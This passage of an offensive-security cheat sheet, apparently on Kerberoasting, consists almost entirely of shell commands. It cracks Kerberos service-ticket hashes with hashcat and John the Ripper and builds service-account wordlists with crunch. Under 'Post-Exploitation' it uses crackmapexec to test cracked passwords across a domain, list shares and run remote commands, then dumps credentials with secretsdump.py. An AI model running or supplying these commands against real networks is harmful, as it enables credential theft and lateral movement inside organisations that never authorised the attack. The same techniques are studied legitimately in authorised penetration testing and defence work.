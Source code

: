 ### Hashcat Cracking
```bash
# Basic cracking with rockyou.txt
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt

# Use rules for better results
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Mask attack for common patterns
hashcat -m 13100 kerberoast_hashes.txt -a 3 ?u?l?l?l?l?l?l?d?d

# Combination attack
hashcat -m 13100 kerberoast_hashes.txt -a 1 wordlist1.txt wordlist2.txt

# Show cracked passwords
hashcat -m 13100 kerberoast_hashes.txt --show
```

### John the Ripper
```bash
# Basic cracking
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast_hashes.txt

# Use rules
john --wordlist=/usr/share/wordlists/rockyou.txt --rules kerberoast_hashes.txt

# Show cracked passwords
john --show kerberoast_hashes.txt
```

### Custom Wordlists
```bash
# Create service-specific wordlists
# Common service account patterns:
# - ServiceName + Year (e.g., SQLService2024)
# - CompanyName + Service (e.g., AcmeSQLSvc)
# - Service + Numbers (e.g., WebService123)

# Generate custom wordlist
crunch 8 12 -t Service@@@ > service_passwords.txt
crunch 8 12 -t @@@@2024 > year_passwords.txt
```

## Post-Exploitation

### Using Cracked Credentials
```bash
# Test cracked password across domain
crackmapexec smb domain.local -u serviceaccount -p crackedpassword

# Check what services the account can access
crackmapexec smb domain.local -u serviceaccount -p crackedpassword --shares

# Execute commands if admin rights
crackmapexec smb domain.local -u serviceaccount -p crackedpassword -x whoami

# Dump credentials if possible
secretsdump.py domain.local/serviceaccount:crackedpassword@target_ip
```
